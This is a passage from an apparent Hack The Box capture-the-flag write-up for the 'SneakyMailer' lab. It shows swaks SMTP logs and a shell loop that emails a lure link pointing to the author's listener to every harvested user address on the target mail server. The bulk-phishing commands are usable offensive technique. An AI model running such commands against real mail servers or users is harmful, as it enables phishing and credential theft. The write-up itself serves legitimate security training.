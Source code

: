 ```text
 -> Check this out! http://10.10.15.100:8090/
 -> 
 -> 
 -> .
<-  250 2.0.0 Ok: queued as B850724954
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.
=== Trying 10.10.10.197:25...
=== Connected to 10.10.10.197.
<-  220 debian ESMTP Postfix (Debian/GNU)
 -> EHLO sneakycorp.htb
<-  250-debian
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-STARTTLS
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250-DSN
<-  250-SMTPUTF8
<-  250 CHUNKING
 -> MAIL FROM:<zweilos@sneakymailer.htb>
<-  250 2.1.0 Ok
 -> RCPT TO:<angelicaramos@sneakymailer.htb>
<-  250 2.1.5 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Sun, 08 Nov 2020 21:04:05 -0500
 -> To: angelicaramos@sneakymailer.htb
 -> From: zweilos@sneakymailer.htb
 -> Subject: Check this out
 -> Message-Id: <20201108210405.081780@kali.kali>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> Check this out! http://10.10.15.100:8090/
 -> 
 -> 
 -> .
<-  250 2.0.0 Ok: queued as 3A9A124956
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.
```

no reply, so maybe try working local address? also put the "link" on a new line in case whatever script cant parse it for some reason \(maybe the `!`?\)

```text
┌──(zweilos㉿kali)-[~/htb/sneakymailer]
└─$ for address in $(cat users); do swaks --helo sneakycorp.htb \
--to $address --from root@sneakymailer.htb --header "Subject: Check this out" \
--body "Check this out. \nhttp://10.10.15.100:8090/" --server 10.10.10.197; done 

=== Trying 10.10.10.197:25...
=== Connected to 10.10.10.197.
<-  220 debian ESMTP Postfix (Debian/GNU)
 -> EHLO sneakycorp.htb
<-  250-debian
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
```